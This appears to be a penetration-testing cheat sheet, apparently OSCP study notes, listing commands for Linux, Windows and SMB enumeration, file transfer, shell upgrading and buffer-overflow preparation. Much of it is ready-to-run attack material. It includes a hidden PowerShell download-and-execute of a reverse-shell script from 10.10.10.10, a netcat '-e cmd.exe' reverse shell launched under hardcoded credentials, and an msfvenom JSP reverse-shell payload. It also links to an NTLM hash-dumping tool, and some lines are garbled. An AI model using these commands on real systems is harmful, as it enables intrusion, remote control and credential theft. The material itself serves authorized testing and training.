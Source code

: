 Tips
=================================================

LinuxEnum: 
--------------------------------------------------

find / -perm -4000 2>/dev/null   //SUID files   
find / -perm -u=s -type f 2>/dev/null  //SUID files
uname -a                         //Posible Linux Kernel Exploit  

### Tools:
[enum4linux](https://github.com/portcullislabs/enum4linux) //enum all  
[pspy](https://github.com/DominicBreuker/pspy) //Process monitoring in LiveMod

WindowsEnum:
--------------------------------------------------
whoami /all  
systeminfo  

[WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)  
[Sherlock](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)  
[fgdump.exe](https://github.com/interference-security/kali-windows-binaries/tree/master/fgdump)  /// DumpPassword NTLM Hashes  


SMBEnum:
--------------------------------------------------
nmblookup -A [ip]    
nbtscan [ip]    
smbmap -H [ip]    
smbclient -L [ip]    
smbclient //[ip]/tmp    

rpcclient -U "" -N [ip]      
enumdomusers  

nmap --script smb-vuln* -p 139,445 [ip]    
nmap --script smb-enum-shares -p 139,445 [ip]  
enum4linux -a [ip]    
  
File Transfer:
--------------------------------------------------
### nc:
nc -l -p 4445 > ovrflw  
nc -w 5 10.10.14.18 4445 < /usr/local/bin/ovrflw  

### powershell:

iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8000/file')  
Invoke-WebRequest "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  
Invoke-RestMethod "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  
(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/file.exe", "C:\Users\Public\Documents\file.exe") 

powershell.exe -w hidden -noni -nop -c "iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/rev.ps1')  

Interactive shell:
--------------------------------------------------
python3 -c "import pty;pty.spawn('/bin/bash')"  
Ctrl+Z  
stty raw -echo  
fg  
stty rows 56 columns 213  

BufOverFlow:
--------------------------------------------------
ldd ovrflw | grep libc  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep system  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit  

Create pattern: /opt/metasploit-framework/tools/exploit/pattern_create.rb -l 100  
Pattern Offset: /opt/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x0000000  


PSChangeUser  
----------------------------------------------------
$username = 'alice'  
$password = 'alicepass'  
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force  
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword  
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nv","10.10.10.10","443","-e","cmd.exe") -WorkingDirectory C:\Users\Public  

Hashes decrypt:
--------------------------------------------------
https://cmd5.ru/  
https://hashes.org/  

MSFVenom Shell:
--------------------------------------------------
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f raw > shell.jsp  

Pivoting:
--------------------------------------------------
https://github.com/21y4d/Notes/blob/master/Pivoting.txt  

Links:
--------------------------------------------------
https://book.hacktricks.xyz/    //Cheat Sheet Pentesting all the thing   
https://github.com/egre55/ultimate-file-transfer-list/blob/master/README.md    //File Transfer Cheat Sheet  
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/   //SMB enumeration CheatSheet  
https://tcm-sec.com/2019/05/25/buffer-overflows-made-easy/    //BuferOverFlow tutor  
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  //Linux PrivEsc Tips
https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html  //Reverse Shells  
https://www.fuzzysecurity.com/tutorials/16.html  //WindowsPrivEsc   
https://refabr1k.gitbook.io/oscp/reverse-shell  //StudyNotes  
https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html  //SQLTips  
http://www.securityidiots.com/Web-Pentest/SQL-Injection/  //MoreSQL  
https://github.com/21y4d/nmapAutomator/blob/master/nmapAutomator.sh  //nmapAutomator  
